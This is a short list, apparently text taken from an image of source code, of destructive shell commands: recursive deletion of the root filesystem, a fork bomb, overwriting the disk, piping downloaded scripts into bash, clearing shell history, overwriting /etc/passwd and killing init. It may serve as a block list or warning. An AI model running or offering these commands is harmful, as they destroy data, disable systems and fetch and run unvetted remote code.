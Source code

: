 rm -rf /
:(){ :|: & };:
dd if=/dev/random of=/dev/sda
chmod -R 777 /
wget [Malicious URL] -O - | bash
sudo rm -rf /*
mv ~ /dev/null
> ~/.bash_history
curl [any URL] | bash
find / -type f -exec rm -f {} \;
mkfs.*
echo [malicious content] > /etc/passwd
kill -9 1
killall5
shutdown
reboot
